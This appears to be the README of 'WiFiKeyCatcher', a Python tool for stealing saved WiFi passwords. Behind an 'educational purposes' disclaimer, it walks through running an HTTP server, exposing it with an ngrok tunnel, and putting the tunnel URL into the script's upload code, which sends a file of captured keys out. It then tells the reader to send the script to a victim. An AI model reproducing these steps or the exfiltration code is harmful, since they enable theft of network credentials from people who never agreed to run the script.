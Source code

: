 <p align="center">
  <img src="https://logos-world.net/wp-content/uploads/2022/03/Wi-Fi-Logo.png"/>
</p>
 <h3><p align="center">
    ⚠️ Disclaimer: This repository is intended for educational purposes exclusively. I bear no responsibility for any illicit or unauthorized use of this project.
</p></h3>
</p>
<p align="center">
  <img src="https://img.shields.io/badge/Version-0.0.1-green" alt=""/>
  <img src="https://img.shields.io/badge/Written in-Python-blue" alt=""/>
  <img src="https://img.shields.io/badge/Author-Ibn Aleem-red" alt=""/>
</p>

# Setup
1. Clone this repository:
```
$ git clone https://github.com/ibnaleem/WiFiKeyCatcher.git
```
2. Run `HTTPServer`:
```
$ py -m http.server
```
3. [Install ngrok](https://ngrok.com/download)
4. Configure auth-token in terminal:
```
$ ngrok config add-authtoken <token>
```
5. Start tunnel on port 8000:
```
$ ngrok http 8000
```
If successfull, you should see all of your system directories as embeded links.

6, Copy ngrok URL and paste into `main.py` (line 52):
```python
url = "https://ngrok-url-here"
files = {'file': open(f'{curr_path}.txt', 'rb')}
```

Save and send to victim. Note: ngrok must be running to obtain WiFi-Keys

#### Target Ran Script, Nothing Received
Make sure your target has Python installed, and you're running HTTP server + ngrok
